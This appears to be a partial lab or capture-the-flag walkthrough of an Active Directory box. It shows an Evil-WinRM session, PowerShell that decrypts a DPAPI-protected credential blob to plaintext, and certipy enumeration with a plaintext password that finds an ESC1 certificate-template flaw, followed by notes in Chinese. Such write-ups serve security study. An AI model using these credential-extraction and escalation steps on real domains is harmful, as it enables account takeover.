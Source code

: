 *Evil-WinRM* PS C:\Users\tracy.white\Documents> cat automation.txt  
Enrollment Automation Account  
  
01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b

  

create a file with content, use cmd or pwsh

```PowerShell
new-item -path . -name "jaa.txt" -itemtype "file"
```

```PowerShell
type nul > hah.txt
```

```PowerShell
echo 01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b > creds.txt
```

or

```PowerShell
"01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e
44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a00
0000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df486
3a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b" | Out-File -FilePath creds.txt
```

```PowerShell
Set-Content -Path .\creds.txt -Value '01000000d08c9ddf0115d1118c7
a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2
526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47c
d2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b'
```

  
  
*Evil-WinRM* PS C:\Users\tracy.white\Documents>  
*Evil-WinRM* PS C:\Users\tracy.white\Documents>

### **What is** `**BSTR**`**?**

- `*BSTR**` stands for **Basic String** or **Binary String**, and it's a string data type used in **COM (Component Object Model)** programming, primarily in Windows environments.

```PowerShell
$pw = Get-Content .\creds.txt | ConvertTo-SecureString
$bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)
$UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
$UnsecurePassword
```

cat automation.txt  
Enrollment Automation Account

01000000d08c9ddf0115d1118c7a00c04fc297eb0100000001e86ea0aa8c1e44ab231fbc46887c3a0000000002000000000003660000c000000010000000fc73b7bdae90b8b2526ada95774376ea0000000004800000a000000010000000b7a07aa1e5dc859485070026f64dc7a720000000b428e697d96a87698d170c47cd2fc676bdbd639d2503f9b8c46dfc3df4863a4314000000800204e38291e91f37bd84a3ddb0d6f97f9eea2b

  

is a **DPAPI-encrypted blob** (Data Protection API) used in Windows systems.

### **Can it be decrypted?**

Yes, but **only under specific conditions**:

- You must be running as the **same user** who encrypted it.
- On the **same machine** (unless machine-level encryption was used).
- You can decrypt it using PowerShell:

A typical **DPAPI-encrypted string** (especially from PowerShell's `ConvertFrom-SecureString`) has these characteristics:

- It is a **long hexadecimal string**.
- It usually **starts with** `**01000000**`, which is a common header for DPAPI blobs.
- It contains **only hexadecimal characters** (0–9, a–f).
- It is often **around 200–300 characters long**, depending on the original data.

  

```PowerShell
 certipy find -u "TRACY.WHITE" -p 'zqwj041FGX' -dc-ip 192.168.190.30 -stdout -vulnerable

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'NARA-CA' via CSRA
[!] Got error while trying to get CA configuration for 'NARA-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'NARA-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'NARA-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : NARA-CA
    DNS Name                            : Nara.nara-security.com
    Certificate Subject                 : CN=NARA-CA, DC=nara-security, DC=com
    Certificate Serial Number           : 2401E520F70B7DA34C32FABC71D89E1D
    Certificate Validity Start          : 2023-07-30 14:06:05+00:00
    Certificate Validity End            : 2123-07-30 14:16:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : NARA-SECURITY.COM\Administrators
      Access Rights
        ManageCertificates              : NARA-SECURITY.COM\Administrators
                                          NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
        ManageCa                        : NARA-SECURITY.COM\Administrators
                                          NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
        Enroll                          : NARA-SECURITY.COM\Authenticated Users
Certificate Templates
  0
    Template Name                       : NaraUser
    Display Name                        : NaraUser
    Certificate Authorities             : NARA-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : UserInteractionRequired
                                          PublishToDs
    Private Key Flag                    : 16777216
                                          65536
                                          ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 100 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Domain Users
                                          NARA-SECURITY.COM\Enterprise Admins
      Object Control Permissions
        Owner                           : NARA-SECURITY.COM\Administrator
        Full Control Principals         : NARA-SECURITY.COM\Enrollment
        Write Owner Principals          : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
                                          NARA-SECURITY.COM\Administrator
                                          NARA-SECURITY.COM\Enrollment
        Write Dacl Principals           : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
                                          NARA-SECURITY.COM\Administrator
                                          NARA-SECURITY.COM\Enrollment
        Write Property Principals       : NARA-SECURITY.COM\Domain Admins
                                          NARA-SECURITY.COM\Enterprise Admins
                                          NARA-SECURITY.COM\Administrator
                                          NARA-SECURITY.COM\Enrollment
    [!] Vulnerabilities
      ESC1                              : 'NARA-SECURITY.COM\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```

- 表示 **Enterprise Security Certificate Vulnerability #1**
- 是 Active Directory 证书服务（AD CS）中最常见、最危险的一个提权漏洞
- 详细信息参考 SpecterOps ESC1 文档

  

  

## 原因分析如下：

### 📄 1. **文件名和内容线索：**`**automation.txt**`

你看到的文件内容中，明确写了：

```Plain

Enrollment Automation Account
01000000d08c9ddf0115d1118c7a00c04fc297eb...
```

这说明：

- 这个文件可能是自动化脚本中使用的凭证（比如自动执行证书申请任务）
- 明确提到 “Enrollment”，说明这个账号是 **跟证书注册相关的账号**

---

### 🧠 2. **实际企业环境中的设计逻辑**

在企业环境中，证书注册通常需要特定权限：

- 比如有个 AD 安全组叫做：`Enrollment`, `CertEnroll`, `Certificate Admins` 等
- 管理员会把负责证书申请的自动化账号（比如脚本或服务使用的账号）加入这些组中，赋予权限

所以：你看到名字里有 “Enrollment” 的密文 + 发现存在 `Enrollment` 权限组或相关用户

👉 **很合理地推测：这个加密密码属于这些人中之一**